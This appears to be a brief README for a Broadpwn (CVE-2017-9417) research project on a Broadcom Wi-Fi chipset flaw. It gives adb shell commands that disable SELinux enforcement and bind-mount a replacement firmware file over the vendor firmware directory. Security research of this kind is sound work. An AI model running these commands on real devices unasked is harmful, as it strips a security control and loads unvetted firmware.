 # Broadpwn
Broadpwn bug (CVE-2017-9417)

Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

$ adb shell
 setenforce 0
 cp fw_bcmdhd.bin /data/local/tmp/firmware/
 chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
 mount -o bind /data/local/tmp/firmware /vendor/firmware
 stop
 start
